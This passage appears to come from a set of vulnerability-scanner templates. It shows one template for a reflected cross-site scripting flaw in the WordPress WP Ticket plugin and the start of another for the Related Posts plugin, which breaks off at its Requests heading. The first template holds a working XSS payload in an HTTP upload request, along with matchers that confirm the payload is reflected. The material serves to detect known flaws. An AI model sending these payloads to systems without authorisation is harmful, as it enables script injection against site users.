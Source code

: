 ## Requests

### Step - 1

```
POST /wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=%3C/script%3E%3Cimg%20src%20onerror=alert(document.domain)%3E&control=upload HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------77916619616724262872902741074
Origin: null

-----------------------------77916619616724262872902741074
Content-Disposition: form-data; name="upload"; filename="{{randstr}}.txt"
Content-Type: text/plain
Test
-----------------------------77916619616724262872902741074--

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<img src onerror=alert(document.domain)>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Related Posts \<= 2.1.1 - Cross Site Scripting

## Description

- WordPress Related Posts plugin before 2.1.1 contains an Reflected XSS via rp4wp_parent

- severity - medium
- tags - wordpress,wp,wp-plugin,xss,relatedposts,authenticated

## Requests
